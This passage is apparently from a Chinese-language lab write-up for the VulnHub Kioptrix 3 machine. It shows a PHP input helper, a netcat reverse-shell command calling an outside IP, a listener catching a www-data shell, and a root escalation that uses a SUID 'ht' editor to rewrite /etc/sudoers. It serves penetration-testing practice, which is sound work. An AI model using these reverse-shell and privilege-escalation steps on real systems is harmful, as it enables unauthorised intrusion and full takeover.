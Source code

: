 ```
		'G'=>'_GET',
		'P'=>'_POST',
		'C'=>'_COOKIE',
		'S'=>'_SESSION',
		'R'=>'_REQUEST',
		'F'=>'_FILES',
		);
		preg_match_all("/[G|P|C|S|R|F]/", $format, $matches); //splitting to globals order
		foreach ($matches[0] as $k=>$glb)
		{
		    if ( isset ($GLOBALS[$format_defines[$glb]][$name]))
		    {   
			return htmlentities ( trim ( $GLOBALS[$format_defines[$glb]][$name] ) , ENT_NOQUOTES ) ;
		    }
		}
		return $default_value;
	} 

}

?>
```

<img width="1919" height="1039" alt="Image" src="https://github.com/user-attachments/assets/e0d23c11-d62a-4698-aa5b-fb5b63f51963" />

这里回弹shell需要使用 `nc 10.10.14.8 4444 -e /bin/bash` 
```
┌──(kali㉿kali)-[~/…/stageOne/writeup/vulnhub/KioptrixVM3]
└─$ sudo nc -lvnp 4444
listening on [any] 4444 ...
        connect to [192.168.218.148] from (UNKNOWN) [192.168.218.199] 57568
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash
```
# 提权
在检索suid程序的时候检索到一个非默认程序/usr/local/bin/ht
前提是使用python把交互环境配置好
这是一个编辑程序可以直接使用它修改一下root的文件，可以在网上搜一下怎么使用的，打开之后按F3，输入/etc/sudoers，再编辑，再按F2保存，再按F10退出
<img width="1605" height="678" alt="Image" src="https://github.com/user-attachments/assets/54dcc205-0b2a-45d7-bb14-fc87b8fd447e" />
```
www-data@Kioptrix3:/home/www/kioptrix3.com$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Kioptrix3:/home/www/kioptrix3.com$ ls
cache  data         gallery       index.php  style
core   favicon.ico  gnu-lgpl.txt  modules    update.php
www-data@Kioptrix3:/home/www/kioptrix3.com$ sudo -l
User www-data may run the following commands on this host:
    (ALL) NOPASSWD: ALL
www-data@Kioptrix3:/home/www/kioptrix3.com$ sudo su
root@Kioptrix3:/home/www/kioptrix3.com# ls
cache  data         gallery       index.php  style
core   favicon.ico  gnu-lgpl.txt  modules    update.php
root@Kioptrix3:/home/www/kioptrix3.com# cd
root@Kioptrix3:~# ls
Congrats.txt  ht-2.0.18
root@Kioptrix3:~# 
```
